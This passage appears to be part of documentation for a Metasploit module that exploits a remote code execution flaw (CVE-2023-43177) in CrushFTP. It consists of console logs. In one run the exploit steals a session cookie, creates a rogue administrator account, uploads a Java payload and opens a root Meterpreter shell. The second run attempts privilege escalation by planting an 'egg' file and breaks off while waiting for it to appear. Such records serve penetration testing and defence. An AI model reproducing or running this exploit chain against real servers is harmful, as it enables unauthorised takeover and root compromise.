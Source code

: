 ```
[*] Found 1 session cookies in the session file
[*] Cookie `1711130936989_ZongxaZC0kfML3XvdU3d2RSL6CG76D` is valid session (username: crushadmin)
[*] Checking if user crushadmin is an admin (cookie: 1711130936989_ZongxaZC0kfML3XvdU3d2RSL6CG76D)
[+] It is an admin! Let's create a temporary admin account
[+] Administrator account created: username=998a245fc4, password=28d3804cfd
[*] [do_login] Logging in with username `998a245fc4` and password `28d3804cfd`
[*] Uploading payload .jar file `d204.jar` to /var/tmp/d204.jar
[*] Triggering the payload
[*] Cleanup the temporary admin account
[*] Started bind TCP handler against 192.168.101.96:4444
[*] Sending stage (57971 bytes) to 192.168.101.96
[+] Deleted /var/tmp/d204.jar
[+] Deleted ./WebInterface/Resources/libs/jq-3.6.0_040ed0cbc9-js
[*] Meterpreter session 13 opened (10.4.227.33:63705 -> 192.168.101.96:4444) at 2024-03-22 19:10:03 +0100

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : ip-10-10-0-10
OS              : Linux 6.5.0-1014-aws (amd64)
Architecture    : x64
System Language : en
Meterpreter     : java/linux
```


#### With an active non-privileged session (privilege escalation)
```
msf6 exploit(multi/http/crushftp_rce_cve_2023_43177) > exploit rhosts=192.168.101.96 verbose=true

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking CrushFTP Server
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131564348_M6LZ3JOkdP3AHww0Xsr8nVdNLVDPOv
[*] Checking if the attack primitive works
[*] Logging out session cookie `1711131564348_M6LZ3JOkdP3AHww0Xsr8nVdNLVDPOv`
[+] The target appears to be vulnerable.
[*] Downloading the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131566040_JXiaRnA4jAMCIqnwiSbWGxPf7pAzHD
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Logging out session cookie `1711131566040_JXiaRnA4jAMCIqnwiSbWGxPf7pAzHD`
[*] Looking for the valid sessions
[*] Found 1 session cookies in the session file
[*] Cookie `1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F` is valid session (username: msfuser)
[*] Checking if user msfuser is an admin (cookie: 1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F)
[*] Could not find any admin session or the admin account creation failed
[*] Attempting privilege escalation with session cookie {:cookie=>"1711131525923_krJ319nYz6GDz4VXkOfUQjbkHzaG0F", :username=>"msfuser"}
[*] Looking for a directory with write permissions
[+] Found a writable directory: /home/readonly/writable1
[*] Uploading the egg file `e5d3f50f45`
[*] Uploading `user.XML` to /home/readonly/writable1/user.XML
[*] Looking for the egg in the session file
[*] Getting a new anonymous session
[*] Anonymous session cookie: 1711131576980_gK0M9IhcvhrhXVrAwRqS1rd8ESJ7ry
[*] Getting session file at `WebInterface/Resources/libs/jq-3.6.0_4cf0853fb7-js/`
[+] Session file downloaded
[*] Session file has not changed yet, skipping
[*] Logging out session cookie `1711131576980_gK0M9IhcvhrhXVrAwRqS1rd8ESJ7ry`
[*] Egg not found, wait 30 seconds and try again... (Ctrl-C to exit)
```